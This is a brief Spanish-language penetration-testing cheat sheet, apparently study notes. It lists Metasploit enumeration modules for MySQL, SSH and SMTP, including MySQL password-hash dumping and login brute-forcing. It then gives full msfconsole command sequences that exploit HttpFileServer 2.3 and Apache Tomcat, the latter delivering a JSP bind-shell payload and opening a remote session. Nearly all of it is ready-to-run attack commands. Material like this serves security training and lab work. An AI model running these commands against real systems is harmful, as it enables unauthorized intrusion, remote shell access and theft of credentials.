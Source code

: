### Enumeración MySQL

Modulos utiles:

- auxiliary/admin/mysql/mysql_enum
- auxiliary/admin/mysql/mysql_sql
- auxiliary/scanner/mysql/mysql_file_enum
- auxiliary/scanner/mysql/mysql_hashdump
- auxiliary/scanner/mysql/mysql_login
- auxiliary/scanner/mysql/mysql_schemadump
- auxiliary/scanner/mysql/mysql_version
- auxiliary/scanner/mysql/mysql_writable_dirs

## Enumeración SSH

Modulos utiles:

- auxiliary/scanner/ssh/ssh_version
- auxiliary/scanner/ssh/ssh_login

### Enumeración SMTP

Modulos utiles:

- auxiliary/scanner/smtp/smtp_enum
- auxiliary/scanner/smtp/smtp_version

## HFS - Http File Server

```bash
$ msfconsole
msf6> workspace -a HFS
msf6> setg RHOSTS <IP-TARGET>
msf6> db_nmap -sS -SCV -p- --open -O <IP-TARGET> -vvv
msf6> search type:exploit name: HttpFileServer httpd 2.3
msf6> use 0
msf6> run
```

## Apache Tomcat Web Server

1. Ejecutamos el exploit

```bash
$ msfconsole
msf6> workspace -a Tomcat
msf6> setg RHOSTS <IP-TARGET>
msf6> db_nmap -sS -SCV -p- --open -O <IP-TARGET> -vvv
msf6> search type:exploit name:tomcat
msf6> use multi/http/tomcat_jsp_upload_bypass
msf6> set payload java/jsp_shell_bind_tcp
msf6> set SHELL cmd
msf6> run
msf6> CTRL + Z
msf6> sessions
```
